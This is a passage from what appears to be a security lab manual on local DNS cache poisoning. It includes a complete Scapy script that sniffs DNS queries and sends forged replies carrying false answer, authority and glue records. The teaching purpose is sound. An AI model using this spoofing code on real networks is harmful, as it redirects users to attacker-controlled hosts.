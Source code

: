 \subsection{What's Next}


In the DNS cache poisoning attack of this lab, 
we assume that the attacker and the DNS server are on
the same LAN, i.e., the attacker can observe the DNS query message.
When the attacker and the DNS server are not on the same LAN,
the cache poisoning attack becomes much more challenging. If you
are interested in taking on such a challenge, you can 
try our ``Remote DNS Attack Lab''.




\section{Guideline}


You need to use Scapy for several tasks in this lab. The following sample code shows how to
sniff a DNS query and then spoof a DNS reply, which contains 
a record in the Answer section, two records in the Authority section and two
records in the Additional section.  


\begin{lstlisting}
#!/usr/bin/python
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,     (*@\ding{192}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
\end{lstlisting}
 

